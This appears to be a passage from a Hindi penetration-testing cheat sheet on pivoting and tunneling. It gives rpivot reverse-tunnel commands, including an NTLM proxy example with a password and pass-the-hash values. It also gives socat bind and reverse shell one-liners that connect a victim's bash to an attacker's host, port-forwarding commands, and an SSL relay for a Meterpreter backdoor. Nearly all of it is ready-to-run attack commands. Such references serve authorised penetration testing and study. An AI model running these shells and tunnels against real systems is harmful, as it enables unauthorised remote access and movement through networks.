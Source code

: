 ## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

रिवर्स टनल। टनल पीड़ित से शुरू होती है।\
127.0.0.1:1080 पर एक socks4 प्रॉक्सी बनाई जाती है।
```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```
**NTLM प्रॉक्सी** के माध्यम से पिवट करें
```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### बाइंड शेल
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
### रिवर्स शेल
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
### Port2Port
```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```
### Port2Port through socks
```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```
### SSL Socat के माध्यम से Meterpreter
```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```
